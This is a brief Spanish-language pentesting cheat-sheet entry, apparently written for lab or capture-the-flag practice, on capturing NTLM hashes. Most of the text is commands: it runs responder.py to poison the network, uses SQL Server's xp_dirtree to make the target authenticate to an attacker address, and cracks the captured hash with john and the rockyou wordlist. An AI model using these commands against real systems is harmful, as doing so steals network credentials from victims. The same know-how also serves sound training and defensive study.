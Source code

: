 Cuando queremos capturar algún hash NTML podemos utilizar la herramienta responder.py para levantar un servidor falso. Cuando el equipo objetivo intente conectarse a un recurso que no existe, preguntará en la red para ver quién puede poseer ese recurso. Ahí es cuando la herramienta responder.py envenena la red indicando que sí posee el recurso, por lo tanto, el equipo intentará conectarse proporcionando credenciales NTML que serán capturadas.

Uso:
> Montar servidor falso de autenticación SQL:
> `python responder.py -I tun0`
> En máquina objetivo, hacer uso del objeto "xp_dirtree", cuya función es parecida a SMB, intentando listar los elementos compartidos de un servidor:
> `xp_dirtree '\\10.10.14.6\loquesea'`
> Obtendremos el hash NTML en el servidor responder.py.
> Este hash podrá ser crackeado pero no utilizado para realizar pass-the-hash.
> Crackear hash:
> `john --wordlist=rockyou.txt hash`

